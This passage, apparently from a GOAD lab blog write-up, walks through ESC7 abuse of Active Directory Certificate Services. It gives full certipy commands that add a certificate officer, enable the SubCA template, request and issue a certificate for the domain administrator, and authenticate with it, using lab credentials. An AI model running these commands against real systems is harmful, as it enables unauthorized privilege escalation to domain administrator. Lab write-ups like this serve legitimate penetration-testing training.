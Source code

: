 - The user got manageCA privileges
- To exploit ESC7, we will add to him "manage certificate" privilege, in order to do that certipy can be used with the option "add-officer" :

```
certipy ca -ca 'ESSOS-CA' -username viserys.targaryen@essos.local -p GoldCrown -add-officer viserys.targaryen -dc-ip 192.168.56.12 -target-ip 192.168.56.23
```

- Now viserys has manageCertificate permission.
- Exploit ESC7:

```bash
# enable SubCA template
certipy ca -ca 'ESSOS-CA' -enable-template 'SubCA' -username viserys.targaryen@essos.local -p GoldCrown -dc-ip 192.168.56.12 -target-ip 192.168.56.23

# request a certificate based on subCA template
certipy req -ca 'ESSOS-CA' -username viserys.targaryen@essos.local -p GoldCrown -dc-ip 192.168.56.12 -target-ip 192.168.56.23 -template SubCA -upn administrator@essos.local

# issue failed certificate request
certipy ca -ca 'ESSOS-CA' -issue-request 7 -username viserys.targaryen@essos.local -p GoldCrown -dc-ip 192.168.56.12 -target-ip 192.168.56.23

# retrieve the issued certificate
certipy req -ca 'ESSOS-CA' -username viserys.targaryen@essos.local -p GoldCrown -dc-ip 192.168.56.12 -target-ip 192.168.56.23 -retrieve 7
```

![part14_esc7_exploit.png](/assets/blog/GOAD/part14_esc7_exploit.png)

- And confirm the pfx is working with certipy

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

![part14_esc7_confirm.png](/assets/blog/GOAD/part14_esc7_confirm.png)
